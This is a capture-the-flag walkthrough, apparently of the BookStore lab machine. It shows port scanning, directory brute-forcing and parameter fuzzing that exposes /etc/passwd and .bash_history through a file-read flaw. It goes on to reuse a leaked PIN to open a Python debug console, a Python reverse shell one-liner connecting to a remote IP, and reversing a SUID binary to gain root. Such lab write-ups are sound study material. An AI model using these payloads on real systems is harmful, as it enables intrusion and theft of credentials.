## 8. BookStore

```
nmap -F <IP>
```

```
nmap -p22,80,5000 -sC -sV <IP>
```

I found a weird port 5000 running some python version




```
gobuster dir -u http://10.49.136.98:5000 -w dirbuster/wordlists/directory-list-2.3-medium.txt

```



We found a directory called /api and /console



Now we can access them which are data in json format



We will look if there is some other parameter apart from the ones we found in our website

```
ffuf -c -w dirbuster/wordlists/directory-list-2.3-medium.txt -u "http://10.49.136.98:5000/api/v1/resources/books?FUZZ=/etc/passwd"
```

We found a link which gave us



```
curl "http://10.49.136.98:5000/api/v1/resources/books?show=/etc/passwd"
```



Now in our /console page it asks for a pin so inorder to bypass this let us see .bash_history file

```
curl "http://10.49.136.98:5000/api/v1/resources/books?show=.bash_history"
```



We found a pin we wanted for console page

Now this page doen't run our commands but do run a python code, I can create a custom python reverse shell code for this



I dont have to create a python code as python reverse shell is available in the cheatsheet

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Run a netcat listener first

```
nc -lvnp 1234
```

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.132.222",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```



```
find / -perm -u=s 2>/dev/null
```

This /try-harder seems out of ordinary



I forgot to run this

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

If I run this ./try-harder it asks me for a number, let us push this file into our machine



```
python3 -m http.server 3030

```

Go to http://192.168.132.222:3030

I can download try-harder file from this

Here we will use ghidra to see our file

Create a new folder THM 



Now we will choose this folder for ghidra and also after running, click on green dragon

Now File --> Import --> Choose try-harder file -> Analyze

Click on that function and we found this



We find its checking this value and it has a formula

local_14 = local_1c ^ 0x1116 ^ local_18;

Now we have local_1c and local_18 value

```
0x5dcd21f4 ^ 0x1116 ^ 0x5db3
```



```
1573743953
```

Use this to get the magic number

Now we are root



